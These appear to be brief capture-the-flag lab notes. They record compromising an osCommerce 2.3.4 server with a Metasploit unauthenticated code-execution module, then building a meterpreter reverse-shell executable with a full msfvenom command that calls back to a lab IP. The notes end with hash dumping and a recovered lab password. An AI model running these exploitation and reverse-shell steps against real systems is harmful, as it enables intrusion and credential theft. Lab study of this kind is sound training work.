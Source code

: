 ### Enumeration
- PHP application `oscommerce-2.3.4`
	- https://www.exploit-db.com/exploits/44374
### Metasploit
- `exploit(multi/http/oscommerce_installer_unauth_code_exec`
- gain shell as php app user
### PrivEsc
- create meterpreter revshell executable with msfvenom
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.25.82 LPORT=4443 -f exe > definitelynotabackdoor.exe`
- upload executable to target via previously established shell
- run metasploit listener `windows/meterpreter/reverse_tcp`
- gain shell and hashdump
- password for `Lab:googleplus`